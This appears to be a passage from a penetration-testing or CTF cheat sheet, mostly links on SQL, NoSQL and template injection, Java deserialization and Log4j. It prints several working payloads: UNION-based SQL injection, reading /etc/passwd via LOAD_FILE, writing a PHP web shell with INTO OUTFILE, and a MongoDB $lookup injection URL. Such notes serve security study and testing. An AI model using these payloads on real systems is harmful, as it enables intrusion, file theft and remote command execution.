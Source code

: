 - https://www.geeksforgeeks.org/pagination-in-sql/

```sql
' UNION SELECT username from table LIMIT 1 OFFSET X # 0||1||2 etc.. 
```

### R/W file

```sql
# Read file
UNION SELECT LOAD_FILE ("etc/passwd")-- 

# Write a file
UNION SELECT "<? system($_REQUEST['cmd']); ?>" INTO OUTFILE "/tmp/shell.php"-
```

### RCE - GCC extension

- https://pentestmonkey.net/category/tools/audit

`Protection`: [quoted & prepared statements](https://phpdelusions.net/mysqli_examples/prepared_select)

### Bypass Filters

- https://websec.wordpress.com/tag/sql-filter-bypass/
- https://johnermac.github.io/notes/ewptx/sqlievasion/
- http://pims.tuxfamily.org/blog/2011/04/write-up-sha1-is-fun-plaidctf/

## NoSQLi

  - https://www.mongodb.com/community/forums/t/unrecognized-pipeline-stage-name-search/111883
  - https://www.dailysecurity.fr/nosql-injections-classique-blind/

```
https://www.vulnerable.com/search?id=23277%22}},{%22$lookup%22:{%22from%22:%22flag%22,%22as%22:%22str%22,%22foreignField%22:%22flag%22,%22localField%22:%22flag
```

## SSTI

- https://cheatsheet.hackmanit.de/template-injection-table/

## Java

### Deserialization

- https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet
- https://www.synacktiv.com/publications/java-deserialization-tricks

### Log4j

- https://www.lunasec.io/docs/blog/log4j-zero-day/
